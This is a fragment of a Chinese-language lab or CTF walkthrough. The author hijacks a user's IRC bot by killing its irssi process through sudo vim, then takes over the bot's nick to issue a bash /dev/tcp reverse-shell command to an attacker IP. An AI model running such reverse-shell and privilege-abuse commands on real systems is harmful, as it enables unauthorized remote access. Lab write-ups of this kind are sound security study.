 在 waldos 主文件夹中找到了一个名为 irssi.sh 的脚本... 发现个问题...

发现 Waldo 正在使用 tmux 满足 IRC 需求... 如果服务装置出现故障... 就是说 tmux 掉线了，IRC 也会跟着掉线...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPoB7sLaian1KXic16rcTqJC1CZkgjzX2vJrbA9a3HLKCs8mxTwWI8Piamk58sl6bZ4BB49uHQwrL9kQ/640?wx_fmt=png)

上面是 Tmux 进程 ID...

```
python -c 'import pty;pty.spawn("/bin/bash")
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPoB7sLaian1KXic16rcTqJC1UBkxvbkBkFlGicpDIeeM6NoDXX9TzOtoWYibFQibMFwiaxIo4gGc0sluYg/640?wx_fmt=png)

```
sudo -u waldo /usr/bin/vim /etc/apache2/sites-available/000-default.conf
```

使用 Vim 发出 kill 命令 [ESC]:!kill 817 [ENTER]...  （ps -aux | grep waldo 来查看进程 ID）

Waldos IRC 连接中断后.../nick waldo 更改名称... 然后使用. run 获取反向 shell 即可...

```
.run bash -c 'bash -i >& /dev/tcp/192.168.182.149/8989 0>&1'
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPoB7sLaian1KXic16rcTqJC1qyibqgg43TRLY9Rrwa391PJ9W2ek9EiczicK7bsiajlSV6JpBsr2NCs5qQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/1DQLmy5KF5MaCtDZZia7mqCsAcicbdgic2icD5s2uXPqW36ByRogdicl1gU9ApjfhRj4xzFa9Qaw5Jib15lSvibvichcFA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ic1JA7F5FW7EwUjZ7Y5D6HTV4J3TpDkT1CoB8KzlyiaGhUQicOMr2N8uU17P8r4QSA6k1znVmLzXaNdlicpXL7KJvA/640?wx_fmt=png)

HexChat

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPoB7sLaian1KXic16rcTqJC1PIr5ZcLtNP2FPCcian49sNEJNYRrj5z1aK5EAyBoPQNDgMa6tkCrjbA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPoB7sLaian1KXic16rcTqJC1yiaia1Ep46p8D8PFq02znGSq0vg2LktI3G9AtTnBTtkMYc8mibjFC1TPQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPoB7sLaian1KXic16rcTqJC1rbxdQPrbKtOVPszucV9eXJRyu30etUnAEBNeTFeDJMwRKITUD4BnYQ/640?wx_fmt=png)

```
以上是基础配置....[链接](https://tieba.baidu.com/p/5270992068?red_tag=2887250276)
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPoB7sLaian1KXic16rcTqJC1QWqq2ibSoATnhwQcqkCAa1ZTumJcCN4rYwJ2lcyAfVQpPbYqCKVtdLQ/640?wx_fmt=png)

已经进来了...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPoB7sLaian1KXic16rcTqJC1hr79wGZYuCA0WsnmNlrRfQ6o0Q08vniaCbMzSiaGTicxrl3YYu7Zibjjzg/640?wx_fmt=png)

```
ps -aux | grep waldo  （查看进程）
```

irssi 进程的数量 684，可以使用 vim 杀死该进程...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPoB7sLaian1KXic16rcTqJC1qia1NWSCwrqeBrD4SLZXbWYt18R2IK4SAMvZJGfKLuNF2JOxfKVbo5Q/640?wx_fmt=png)
